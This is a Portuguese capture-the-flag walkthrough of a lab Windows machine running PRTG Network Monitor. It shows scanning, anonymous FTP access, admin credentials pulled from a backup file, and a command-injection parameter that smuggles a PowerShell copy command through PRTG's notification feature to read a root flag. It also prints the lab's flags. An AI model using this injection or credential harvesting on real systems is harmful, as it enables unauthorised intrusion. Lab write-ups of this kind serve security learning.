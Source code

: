 1. Usar nmap para escanear portas e encontrar possíveis fragilidades

```
$ nmap 10.10.10.152

Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-10 10:43 -03
Nmap scan report for 10.10.10.152
Host is up (0.11s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE
**21/tcp   open  ftp**
80/tcp   open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
```

2. A porta 21, do protocolo FTP (para transferência de arquivos), está aberta. Isso significa que podemos conectar como anônimos e começar uma busca pelos diretórios
```
$ lftp Anonymous@10.10.10.152

$lftp> ls                
02-03-19  12:18AM                           1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows

$lftp> cd Users/
$lftp> ls

02-25-19  11:44PM       <DIR>          Administrator
04-11-19  11:27AM       <DIR>          Public

$lftp> cd Public/
$lftp> ls

02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
04-11-19  11:28AM                           90 tester.txt
**02-03-19  12:35AM                           33 user.txt**
07-16-16  09:18AM       <DIR>          Videos
```

3. Apenas andando pelos diretórios conseguimos encontrar a **primeira flag**, no arquivo _user.txt_, que nos concede acesso de usuário

```
$lftp> cat user.txt
**dd58ce67b49e15105e88096c8d9255a5**        
33 bytes transferred
```

4. Continuando a busca, encontramos arquivos de backup (.old e .bak)

```
$lftp> ls -a

11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
04-29-19  09:46AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-25-19  10:56PM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows

$lftp> cd ProgramData/Paessler/PRTG\ Network\ Monitor
$lftp> ls -a

02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
04-29-19  09:47AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
04-29-19  09:47AM       <DIR>          Logs (Web Server)
04-29-19  09:52AM       <DIR>          Monitoring Database
04-29-19  10:00AM              1214224 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
04-29-19  09:48AM              1647616 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```

5. A análise desses arquivos revela um usuário e uma senha de admin 

```
$lftp> cat PRTG\ Configuration.old.bak
...
<dbpassword>
<!-- User: prtgadmin -->
PrTg@dmin2018
</dbpassword>
...
```

6. A porta http (80) aberta mostrada no escaneamento do IP, dá indicios de que teremos um site para analisar. No site, tentamos as credenciais:

**Username: prtgadmin   
Password: PrTg@dmin2018**

E ganhamos acesso negado. Mas vale lembrar que aquilo era um arquivo de backup, então talvez a seja atual tenha mais a ver com o ano atual:

Username: prtgadmin
Password: PrTg@dmin2019

7. Com o login de administrador aceito, vamos tentar executar um programa no servidor a partir da central de notificações do site:

* Setup -> Notifications -> Edit Notifications -> Execute Program 

* Run command in powershell:
* Demo exe notification - outfile.ps1

No parâmetro, colocaremos um código para copiar o arquivo _root.txt_ do diretório _Administrator_ que não possuimos acesso quando entramos como anônimos no FTP para um diretório no qual possuímos acesso:

* Parameter:
```
flag.txt; Copy-item "C:\Users\Administrator\Desktop\root.txt" -Destination "C:\Users\Public\flag.txt" -Recurse
```
* Execute Notification

8. Voltando ao terminal e nos conectando a partir do FTP, podemos ir até o diretório para onde mandamos o arquivo copiado:
```
$lftp> Users/Public
$lftp> cat flag.txt
**3018977fb944bf1878f75b879fba67cc**
```
E teremos acesso também a **segunda flag**, do arquivo _root.txt_
